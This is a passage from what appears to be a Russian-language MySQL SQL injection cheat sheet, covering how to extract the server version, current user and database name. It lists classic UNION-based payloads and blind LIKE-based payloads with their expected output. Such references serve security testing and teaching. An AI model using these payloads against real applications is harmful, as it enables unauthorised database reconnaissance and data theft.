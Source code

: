 что означает

```sql
if(version >= 4.1.10)
   add 'and 1=0' to the query.
```

Способы эквивалентны, так как результат один и тот же.

Классическая инъекция:

`1 AND 1=0 UNION SELECT @@version /*`

Косвенная инъекция:

`1 AND @@version like '4.0%'`

Ответ будет содержать что-то вроде

`5.0.22-log`

#### Имя пользователя

Есть два типа пользователей, на которые полагается MySQL Server.

1. [USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_user): пользователь, подключенный к серверу MySQL.
2. [CURRENT_USER()](https://dev.mysql.com/doc/refman/8.0/en/information-functions.html#function_current-user): внутренний пользователь, который выполняет запрос.

Между 1 и 2 есть некоторая разница. Отличие заключается в том, что анонимный пользователь может подключаться (если разрешено) с любым именем, а внутренний пользователь MySQL — это пустое имя (''). Ещё одно отличие в том, что хранимая процедура или функция выполняются от имени пользователя-создателя, если они не объявлены где-либо ещё. Это можно узнать через `CURRENT_USER`.

Классическая инъекция:

`1 AND 1=0 UNION SELECT USER()`

Косвенная инъекция:

`1 AND USER() like 'root%'`

В ответе будет что-то типа:

`user@hostname`

#### Используемое имя базы данных

Есть стандартная функция `DATABASE()`

Классическая инъекция:

`1 AND 1=0 UNION SELECT DATABASE()`

Косвенная инъекция:

`1 AND DATABASE() like 'db%'`

> Ожидаемый результат — строка типа
>
> `dbname`
